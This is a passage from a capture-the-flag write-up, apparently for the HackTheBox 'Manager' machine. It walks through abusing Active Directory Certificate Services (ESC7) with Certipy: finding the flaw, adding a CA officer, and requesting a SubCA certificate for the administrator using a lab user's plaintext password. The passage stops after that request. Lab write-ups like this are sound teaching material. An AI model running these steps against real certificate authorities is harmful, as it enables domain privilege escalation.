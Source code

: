 # Privilege Escalation

As there is an Active Directory Certificate Service, we will use [Certipy](https://github.com/ly4k/Certipy) to find out if there are some vulnerabilities.

```sh
certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'  -dc-ip 10.10.11.236

<...>

[!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
```

It looks like we can use the escalation technique ESC7.

> ESC7 is when a user has the Manage CA or Manage Certificates access right on a CA. There are no public techniques that can abuse the Manage Certificates access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests.

This escalation technique is when a user has the `Manage CA` or `Manage Certificates` access right on a Certificate Authorithy.

The steps to exploit this technique is shown in the github of the tool.

First step is to give the Manage Certificates permission to the user `Raven`: (note that we can do this only because the user `Raven` has ManageCa rights.)

```sh
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

As this is temporary because of resets, we have to act fast or repeat the above step in case on problem.

Now the attack steps are the following:

- Request a certificate based on the `SubCa` template:

```sh
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

[*] Requesting certificate via RPC                         
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```

It is normal to have a failed response, what matters here is the request ID.
